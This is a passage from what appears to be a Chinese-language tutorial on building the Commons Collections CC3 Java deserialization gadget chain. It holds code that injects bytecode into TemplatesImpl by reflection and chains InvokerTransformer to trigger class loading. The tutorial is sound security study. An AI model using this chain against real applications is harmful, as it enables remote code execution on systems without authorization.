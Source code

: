 ```java
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

```java
public class CC3TemplatesImpl {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\CC6TiedMapEntry2.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        templatesClass.newTransformer();
    }
}
```

也是成功加载

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801140609456.png)



## 链接到readObject

### 直接触发TemplatesImpl#newTransformer

InvokerTransformer能调用任意公开的方法，在这里也就是newTransformer。直接在后面链上

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(templatesClass),
        new InvokerTransformer("newTransformer",new Class[]{},new Object[]{}),
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
